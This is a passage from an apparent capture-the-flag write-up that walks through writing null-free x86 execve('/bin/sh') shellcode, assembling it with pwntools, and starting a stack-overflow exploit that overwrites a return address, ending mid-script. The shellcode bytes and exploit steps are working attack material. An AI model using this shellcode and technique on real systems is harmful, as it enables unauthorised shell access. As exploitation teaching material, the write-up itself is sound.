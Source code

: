 Our call should look like this:
```C
execve("/bin/sh", NULL, NULL);
```

This corresponds to the following x86 code:
```
mov    edx, 0x0             ; NULL
mov    ecx, 0x0             ; NULL
mov    ebx, 0xaabbccdd      ; address of null-terminated "sh"
mov    eax, 0xb             ; syscall number for execve()
int    0x80
```

We can't have null bytes in our shellcode, however, so we will `xor` registers instead to zero them out and then add values to their lowest byte if necessary:
```
xor    edx, edx             ; NULL
xor    ecx, ecx             ; NULL
mov    ebx, 0xaabbccdd      ; address of null-terminated "sh"
xor    eax, eax
mov    al, 0xb              ; syscall number for execve()
int    0x80
```

We can use pwnlib's x86 assembler to get our shellcode:
```
ameise@STAHLKERN:~/CS2015/pwn/200_BREVITY$ python
Python 2.7.12 (default, Jul  1 2016, 15:12:24) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> context.arch = 'i386'
>>> context.os = 'linux'
>>> context.endian = 'little'
>>> asm_code = """
... xor edx, edx
... xor ecx, ecx
... mov ebx, 0xaabbccdd
... xor eax, eax
... mov al, 0xb
... int 0x80
... """
>>> shellcode = asm(asm_code)
>>> shellcode
'1\xd21\xc9\xbb\xdd\xcc\xbb\xaa1\xc0\xb0\x0b\xcd\x80'
>>> len(shellcode)
15
```

Now we have our shellcode. We pad 16 bytes to get to the return address, overwrite the return address with the address of the start of the shellcode (`0xffff0c28`), write our 15 bytes of shellcode, and then `"sh\x00"`. Since the address of `"sh"` on the stack may differ natively compared to when we ran it in `gdb`, we will leave this as `0xaabbccdd` and patch it later.
```Python
BUFFERSTART = 0xffff0c14

def LittleEndian(hexnum):
  s = ""
  s += chr( (hexnum) & 0xff)
  s += chr( (hexnum >> 8) & 0xff)
  s += chr( (hexnum >> 16) & 0xff) 
  s += chr( (hexnum >> 24) & 0xff) 
  return s

bufferstart = BUFFERSTART

```